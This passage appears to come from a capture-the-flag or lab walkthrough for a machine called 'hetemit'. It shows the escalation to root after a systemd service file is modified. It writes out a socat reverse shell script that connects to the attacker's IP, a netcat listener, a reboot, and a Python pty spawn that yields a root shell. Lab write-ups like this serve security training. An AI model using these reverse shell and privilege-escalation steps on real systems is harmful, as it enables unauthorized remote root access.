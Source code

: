Specifically, we modified the `ExecStart` and `User` lines, and removed the `WorkingDirectory=` line.

Next, we'll create the reverse shell file.

```bash
[cmeeks@hetemit ~]$ cat <<'EOT'> /home/cmeeks/reverse.sh
#!/bin/bash
socat TCP:192.168.118.8:18000 EXEC:sh
EOT

[cmeeks@hetemit ~]$ chmod +x /home/cmeeks/reverse.sh
```

Let's restart our listener on port 18000, and then reboot the machine.

```bash
[cmeeks@hetemit ~]$ sudo reboot
```

When the machine boots up, we obtain a root shell.

```bash
kali@kali:~$ nc -lvnp 18000
listening on [any] 18000 ...
connect to [192.168.118.8] from (UNKNOWN) [192.168.120.36] 57890
python3 -c 'import pty; pty.spawn("/bin/bash")'

[root@hetemit /]# whoami
root

[root@hetemit /]# 
```